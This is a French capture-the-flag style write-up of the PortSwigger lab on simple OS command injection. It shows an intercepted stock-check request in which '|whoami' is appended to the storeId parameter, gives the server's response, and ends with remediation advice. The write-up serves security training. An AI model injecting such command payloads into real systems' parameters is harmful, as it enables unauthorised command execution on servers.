




#Lab: OS command injection, simple case

**PORTSWIGGER**  
**Category :** OS command injection   
**Points :** ✅  
**Status :** Résolu ✅

---

## 🎯 Challenge


  

 


- La première étape consiste à sélectionner un article sur le site et à initier une vérification de stock. Cette action permet d'intercepter les requêtes HTTP générées afin d'analyser leur structure et de déterminer le vecteur d'attaque optimal pour la suite.


---
## ⚡ Solution  

- À présent, nous allons envoyer la requête POST de demande de stock au module Repeater, et ensuite y ajouter la charge utile.

- Afin de valider la présence d'une injection de commande, nous injectons la charge utile |whoami au sein du paramètre storeId de la requête POST. L'objectif est de contraindre le serveur de gestion des stocks à exécuter une commande système arbitraire.

---

**Payload utilisé :**  

```http
POST /product/stock HTTP/2
Host: 0ad4008a036832d8808126ef00dd0087.web-security-academy.net
Cookie: session=XP2PX4fdwPcYYAGeLyfOE5OqXzwdsTTH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ad4008a036832d8808126ef00dd0087.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0ad4008a036832d8808126ef00dd0087.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1|whoami
```

**Réponse :**


```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-mOK3a1

```  

  




## 🚩 Flag



---

## 🛡️ Remédiation  
1. La solution la plus efficace consiste à vérifier rigoureusement les données envoyées par l'utilisateur. Le paramètre storeId attend uniquement un nombre entier. Le serveur doit rejeter immédiatement toute requête contenant des caractères spéciaux comme le pipe (|), le point-virgule (;) ou des lettres.   
2. Les développeurs doivent éviter d'appeler des commandes système via le shell (comme system() ou exec()). Il faut privilégier les fonctions internes du langage de programmation ou utiliser des API sécurisées qui séparent strictement le code exécutable des arguments fournis par l'utilisateur.  


## 💡 Points Clés à Retenir  
**Ce qu'il faut retenir de ce challenge :** Ce laboratoire démontre qu'une simple fonctionnalité comme une vérification de stock peut compromettre tout un serveur si les entrées ne sont pas nettoyées. En tant que joueur de CTF, cela rappelle l'importance de tester chaque paramètre d'une requête HTTP, même ceux qui semblent inoffensifs. Le caractère | (pipe) est un outil puissant pour forcer l'enchaînement de commandes et confirmer instantanément une vulnérabilité d'injection.  

---
*Malick Ramzy SOPODOU — PORTSWIGGER 🌍*
